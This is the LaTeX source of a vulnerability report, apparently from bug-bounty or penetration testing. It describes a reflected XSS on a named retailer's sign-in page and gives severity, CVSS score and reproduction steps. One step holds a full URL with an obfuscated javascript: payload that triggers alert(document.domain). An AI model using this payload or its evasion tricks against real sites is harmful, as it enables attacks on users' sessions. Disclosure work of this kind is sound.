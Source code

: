 \documentclass{article}
\makeatletter
\renewcommand{\subsection}{\@startsection{subsection}{2}{\z@}%
            {-.5ex\@plus -.1ex \@minus -.01ex}%
            {1.0ex \@plus .01ex}%
            {\normalfont\large\color{subsectioncolor}}}
\makeatother
\begin{document}
                    \subsection{\large Reflected Cross site Scripting (XSS) }
                    \begin{description}[itemsep=2pt, leftmargin=0.2cm]
                        \item \large \textbf{Status:} New
                        \item \large \textbf{Severity: \textcolor{infotext} {High}}
                        \item \large \textbf{OWASP Category: A03-Injection }
                        \item \large \textbf{CVSS Score:} 8.3 
                        \item \large \textbf{Affected Hosts/URLs:}
                            \begin{itemize} 
                            \item \large \url{https://www.starbucks.com}
                            \end{itemize}
                        \item \large \textbf{Summary:} \\  \large Reflected Cross site Scripting (XSS) on \url{https://www.starbucks.com/account/signin?ReturnUrl.}
The attacker can execute javascript on the victims account just after the authentication process.
                            
                        \item \large \textbf{Screenshot:} \\ \\
                        \texttt{[image: Images/temp-image-0-0.png]} \\
                       

                        \item \large \textbf{Steps of Reproduce:}
                        \linespread{1.0}
                        \begin{enumerate}[leftmargin=0.5cm]
                            
                        \item \large Open the url: \url{https://www.starbucks.com/account/signin?ReturnUrl=\%19Jav\%09asc\%09ript\%3ahttps\%20\%3a\%2f\%2fwww\%2estarbucks\%2ecom\%2f\%250Aalert\%2528document.domain\%2529}

                        \item \large Login to the url.


\end{enumerate}
\end{description}
\end{document}
